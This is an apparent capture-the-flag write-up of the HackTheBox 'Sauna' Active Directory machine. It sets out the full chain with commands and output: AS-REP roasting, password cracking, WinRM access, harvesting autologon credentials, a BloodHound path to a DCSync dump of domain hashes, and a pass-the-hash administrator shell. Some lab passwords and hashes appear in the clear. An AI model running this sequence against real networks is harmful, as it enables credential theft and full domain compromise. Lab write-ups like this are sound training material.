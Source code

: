 #+TITLE: Sauna HTB Writeups
#+AUTHOR: Readacted


* Enumeration
we start the job by trying to figure out if the host is active.
#+begin_src bash
nmap -sn 10.10.10.175 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 16:38 EST
Nmap scan report for EGOTISTICAL-BANK (10.10.10.175)
Host is up.
Nmap done: 1 IP address (1 host up) scanned in 0.00 seconds
#+end_src

We continue by enumerating the exposed tcp services.
#+begin_src bash
nmap -sC -sV 10.10.10.175 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 15:21 EST
Nmap scan report for 10.10.10.175
Host is up (0.048s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-04 03:22:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m58s
| smb2-time: 
|   date: 2024-03-04T03:22:11
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.17 seconds
#+end_src
* Footprinting
Navigating to the website in a browser reveals a website for a bank. The Wappalyzer add-on doesn't identify any vulnerable technologies.
[[./pics/homepage.png]]

We use feroxbuster to perform a folder enumeration, nothing interesting.
#+begin_src bash 
feroxbuster -u http://10.10.10.175/ -x "php,js,bak,md,json" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.175/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, js, bak, md, json]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      150c http://10.10.10.175/images => http://10.10.10.175/images/
200      GET      385l     1324w    14226c http://10.10.10.175/css/slider.css
200      GET      470l     1279w    24695c http://10.10.10.175/blog.html
200      GET      122l      750w    60163c http://10.10.10.175/images/t4.jpg
200      GET      325l      770w    15634c http://10.10.10.175/contact.html
200      GET     2168l     4106w    37019c http://10.10.10.175/css/style.css
200      GET      111l      661w    50106c http://10.10.10.175/images/t1.jpg
200      GET      683l     1813w    32797c http://10.10.10.175/index.html
200      GET      640l     1767w    30954c http://10.10.10.175/about.html
200      GET      684l     1814w    38059c http://10.10.10.175/single.html
200      GET     2337l     3940w    37414c http://10.10.10.175/css/font-awesome.css
200      GET      144l      850w    71769c http://10.10.10.175/images/t2.jpg
200      GET      138l      940w    76395c http://10.10.10.175/images/t3.jpg
200      GET      268l     2037w   191775c http://10.10.10.175/images/skill2.jpg
200      GET      657l     3746w   345763c http://10.10.10.175/images/skill1.jpg
200      GET     8975l    17530w   178152c http://10.10.10.175/css/bootstrap.css
403      GET       29l       92w     1233c http://10.10.10.175/css/
200      GET      389l     1987w   159728c http://10.10.10.175/images/ab.jpg
200      GET      683l     1813w    32797c http://10.10.10.175/
301      GET        2l       10w      147c http://10.10.10.175/css => http://10.10.10.175/css/
#+end_src

On navigating to ~about.html~ and scrolling down, we see a section containing full names of some Bank employees.

[[./pics/user.png]]

We save everything to a file
#+begin_src text
Fergus Smith
Shaun Coins
Sophie Driver
Bowie Taylor
Hugo Bear
Steven Kerb
#+end_src
* Foothold
We use the list first created to create a logical permutation of users to try to guess the syntax used by the administration to manage users (name.surname, n.surname, etc.).
#+begin_src bash
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt
#+end_src

We will get this list.
#+begin_src bash
fergus
fergus.smith
ferguss
fsmith
shaun
shaun.coins
shaunc
scoins
sophie
sophie.driver
sophied
sdriver
bowie
bowie.taylor
bowiet
btaylor
hugo
hugo.bear
hugob
hbear
steven
steven.kerb
stevenk
skerb
#+end_src

With our list of names we will first go to check if among all users there is one with kerberos pre-authentication disabled. Kerberos pre-authentication is a security feature that protects against password-guessing attacks.
When pre-authentication is not enforced, one could directly send a dummy request for authentication. The Key Distribution Center (KDC) of the Domain Controller will check the authentication service request (AS-REQ), verify the user information and
return an encrypted Ticket Granting Ticket (TGT). The TGT contains material (the timestamp) that is encrypted with the NTLM hash of the corresponding account. A hash can be derived from this, that can be subjected to an offline brute force attack in order to reveal the plaintext password.
Using Impacket's GetNPUser, we can attempt an ASREPRoasting attack in order to extract a hash from user accounts that do not require pre-authentication.
#+begin_src bash
while read user; do GetNPUsers.py egotistical-bank.local/"$user" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < unames.txt
#+end_src

#+begin_src text
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:<redacted>
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
#+end_src
~GetNPUsers.py~ returns a hash for user fsmith .

Now we are left to save the hash.
#+begin_src bash
echo -n '$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:<redacted>' > tgt.hash
#+end_src

And now try to get the password with john.
#+begin_src bash
john tgt.hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thes<redacted>     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)     
1g 0:00:00:03 DONE (2024-03-03 15:39) 0.3105g/s 3272Kp/s 3272Kc/s 3272KC/s Thrall..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
#+end_src

* Initial Access
With the gained credentials fsmith / Thestrokes23 we can try to login using WinRM (port
5985). Windows Remote Management (WinRM), is a Windows-native built-in remote management
protocol and it is often enabled for users that need to manage systems remotely. We can use evilwinrm to connect to the remote system.
#+begin_src bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thes<redacted>'
#+end_src

* Privilege Escalation
Having gained a foothold on the machine, we can use a script such as WinPEAS to automate
enumeration tasks. Use the upload command from our current WinRM session to transfer the
binary to the remote server, and then run it.

#+begin_src bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> WinPeasex64.exe
#+end_src

The script reveals that the user ~EGOTISTICALBANK\svc_loanmanager~ has been set to automatically log in, and this account has the password releved by the scripts.
#+begin_src bash
����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  <redacted>

����������͹ Password Policies
#+end_src

The command net user ~svc_loanmgr~ reveals that this user is also part of the ~Remote Management Users group~. Use evil-winrm again to login as this new user.
#+begin_src bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p '<redactede>'
#+end_src

Possiamo usare Bloodhound per enumerare e visualizzare il dominio Active Directory e identificare le possibili catene di attacco che ci permetteranno di elevare i nostri privilegi di dominio.
First we go to download and set up the environment.
#+begin_src bash
curl -o docker-compose.yml https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml && sudo docker-compose -f docker-compose.yml up
#+end_src

We can now visit in the bloodhound browser ~http://127.0.0.1:8080~, we go up _settinggs -> Download Collectors_ and download the collector ~Sharphound~.
Once a downloaded, through always evil-winrm we go to upload it to the target machine.
#+begin_src bash
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> ./SharpHound.exe
2024-03-03T20:44:55.1098536-08:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2024-03-03T20:44:55.2502878-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices
2024-03-03T20:44:55.2658560-08:00|INFORMATION|Initializing SharpHound at 8:44 PM on 3/3/2024
2024-03-03T20:44:55.4377247-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for EGOTISTICAL-BANK.LOCAL : SAUNA.EGOTISTICAL-BANK.LOCAL
2024-03-03T20:45:19.5783301-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices
2024-03-03T20:45:19.7660621-08:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL
2024-03-03T20:45:19.7660621-08:00|INFORMATION|Testing ldap connection to EGOTISTICAL-BANK.LOCAL
2024-03-03T20:45:19.8283323-08:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL Configuration NC
#+end_src

Thanks again to evil-winrm let's go get the zipper containing all the json that bloodhound wants.
#+begin_src bash
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> dir


    Directory: C:\Users\svc_loanmgr\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2024   8:46 PM          22308 20240303204602_BloodHound.zip
-a----         3/3/2024   8:44 PM        1343488 SharpHound.exe
-a----         3/3/2024   8:46 PM          45175 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin
#+end_src

When taken all we have to do is go back to the bloodhound homepage, _settings -> administartor -> upload file_ and upload them.
After a while searching the path from our current user ~svc_loanmgr~ to the admin group we will see something interesting.
[[./pics/blood.png]]

This account has access to ~GetChanges~ and ~GetChangesAll~ on the domain. Googling that will quickly point to a low of articles on the DCSync attack, or I can right click on the label (you have to get in just the right spot) and get the menu for it:

[[./pics/click.png]]

Clicking help, there’s a Abuse Info tab that includes instructions for how to abuse this privilege:

[[./pics/abuse.png]]

My preferred way to do a ~DCSync attack~ is using secretsdump.py, which allows me to run DCSync attack from my Kali box, provided I can talk to the DC on TCP 445 and 135 and a high RPC port. This avoids fighting with AV, though it does create network traffic.
I need to give it just a target string in the format [username]:[password]@[ip]:
#+begin_src bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:<redacted>
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:<redacted>
EGOTISTICAL-BANK.LOCAL\FSmith:1105:<redacted>
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:<redacted>
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:87347c253a9f1268f2475984cc1605ef:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:dce1896599ad36d0a9fcf2a3cd2069ca86046b930c06c22e2876d375097833c2
SAUNA$:aes128-cts-hmac-sha1-96:7dec3554d489a32299317d703423c428
SAUNA$:des-cbc-md5:290d5dce1ccd2615
[*] Cleaning up... 
#+end_src
** Shells
I can use the administrator hash to WMI to get a shell as administrator:
#+begin_src bash
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes <redacted>
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation


[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file EZsXIuec.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service WxJi on 10.10.10.175.....
[*] Starting service WxJi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami 
#+end_src
